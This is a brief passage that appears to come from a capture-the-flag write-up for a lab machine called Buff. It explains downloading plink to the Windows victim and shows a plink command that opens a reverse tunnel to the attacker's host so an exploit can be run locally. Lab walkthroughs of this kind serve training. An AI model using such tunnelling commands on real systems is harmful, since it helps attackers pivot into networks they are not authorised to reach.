


plink
we want to forward our port to the victim box so we can run the exploit locally on our attacking machine since BUFF does not support pythonfirst download plink to our windows victim with a powershell downloadfile cmd



plink.exe -l st0ve -pw 12345 10.10.14.62 -R 8888:127.0.0.1:8888
 +
+